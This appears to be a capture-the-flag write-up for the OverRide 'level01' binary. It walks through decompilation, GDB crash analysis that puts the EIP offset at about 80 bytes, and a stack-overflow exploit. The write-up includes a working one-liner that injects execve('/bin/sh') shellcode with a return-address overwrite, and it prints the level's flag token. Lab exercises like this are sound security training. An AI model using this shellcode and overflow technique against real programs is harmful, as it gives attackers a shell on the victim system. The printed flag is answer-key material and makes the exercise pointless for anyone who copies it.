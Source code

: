 # level01

1. Static analysis / Decompilation

   * The binary prompts for an admin **username** and then a **password**.
   * The username input is placed into a stack buffer of size `0x100` (256) and read from `stdin`.
   * After username handling, the program asks for a password; the subsequent handling is vulnerable and enables a classic stack **buffer overflow**.

   ### Decompiled / pseudo‑C (overview)

   ```c
   int main(void) {
       char username[0x100];
       puts("********* ADMIN LOGIN PROMPT *********");
       printf("Enter Username: ");
       fgets(username, 0x100, stdin);  // bounded read for username
       puts("verifying username....");
       printf("\nEnter Password: ");
       // password handling follows (vulnerable)
   }
   ```

   ```shell
    (gdb) info address a_user_name
    Symbol "a_user_name" is at 0x804a040 #a_user_name address
   ```


2. Analysis of the vulnerability

   * The level contains a **stack-based buffer overflow** reachable during **password** processing. Carefully crafted input can overwrite saved stack data, including the saved return address (EIP), leading to control‑flow hijack.
   * A cyclic pattern causes a crash with `SIGSEGV` at an address derived from the pattern, confirming EIP control after ~80 bytes of input.

   #### Evidence under GDB (from notes)

   ```bash
   level01@OverRide:~$ gdb ./level01
   (gdb) r
   ********* ADMIN LOGIN PROMPT *********
   Enter Username: dat_wil
   verifying username....

   Enter Password:
   Aa0Aa1Aa2...Ad2A
   nope, incorrect password...

   Program received signal SIGSEGV, Segmentation fault.
   0x37634136 in ?? ()  # offset ~80
   ```

3. Finding the overflow offset

   * Using a cyclic pattern reveals **EIP offset ≈ 80 bytes**. After ~80 bytes of attacker‑controlled data, the next 4 bytes are interpreted as the saved return address.

4. Exploit construction

   **Strategy:**

   1. Supply a username expected by the program (e.g., `dat_wil`).
   2. Deliver shellcode with the username (stored on the stack / in process memory).
   3. On the password prompt, send a payload that overflows the vulnerable buffer, includes a **NOP sled**, and overwrites the saved return address with a pointer into the sled/shellcode region which was placed earlier at a_user_name + 7 (because dat_wil is 7 bytes long).

   **One‑liner payload components:**

   * `dat_wil` — a benign username prefix the binary recognizes.
   * Shellcode — classic x86 `execve("/bin/sh")`.
   * `\n` — terminates the username read; remaining bytes feed the password read.
   * `\x90 * 80` — NOP sled to widen the landing zone.
   * `\x47\xa0\x04\x08` — little‑endian overwrite of the saved return address (`0x0804a047`) chosen to jump into the injected region.

5. Exploitation (command used)

   ```bash
   cat <(python -c "print 'dat_wil' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + '\n' + ('\x90' * 80) + '\x47\xa0\x04\x08'") - | ./level01
   ```

6. Token

   token found `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`